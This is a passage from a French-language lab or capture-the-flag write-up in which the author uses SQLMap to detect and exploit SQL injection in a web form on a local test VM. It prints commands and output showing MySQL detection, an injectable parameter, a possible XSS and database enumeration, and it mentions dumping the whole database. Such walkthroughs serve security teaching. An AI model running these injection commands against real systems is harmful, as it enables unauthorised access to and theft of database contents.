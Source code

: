 « Smell that? You smell that? SQL injections, son. Nothing else in the world smells like that. I love the smell of SQL injections in the morning. »

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, SQLMap vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d"

--snip--

[12:34:56] [INFO] testing connection to the target URL
[12:34:56] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:34:56] [INFO] testing if the target URL content is stable
[12:34:56] [INFO] target URL content is stable
[12:34:56] [INFO] testing if POST parameter 'name' is dynamic
[12:34:56] [WARNING] POST parameter 'name' does not appear to be dynamic
[12:34:56] [INFO] heuristic (basic) test shows that POST parameter 'name' might be injectable (possible DBMS: 'MySQL')
[12:34:56] [INFO] heuristic (XSS) test shows that POST parameter 'name' might be vulnerable to cross-site scripting (XSS) attacks
[12:34:56] [INFO] testing for SQL injection on POST parameter 'name'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
[12:35:46] [ERROR] user quit
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le premier paramètre testé _name_ est vulnérable à la fois aux injections SQL et aux XSS (alias Cross-Site Scripting... on y reviendra). Il y a de très fortes chances pour que les autres paramètres soient eux aussi vulnérables, c'est reparti pour un tour ! Après plusieurs tentatives, SQLMap récupère les tables (--tables) ainsi que les colonnes (--columns) présentes dans chaque base de données trouvée (--dbs), et tant qu'à faire, autant récupérer tout le contenu de la base de données (--dump-all).

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dbs -v0

--snip--

---
web server operating system: Linux Fedora 8 or 7 or 6 (Moonshine or Zod or Werewolf)
web application technology: PHP 5.2.4, Apache 2.2.6
back-end DBMS: MySQL >= 5.0.0
[13:13:13] [INFO] resumed: information_schema
[13:13:13] [INFO] resumed: contacts
[13:13:13] [INFO] resumed: drupal
[13:13:13] [INFO] resumed: mysql
[13:13:13] [INFO] resumed: test
---
```
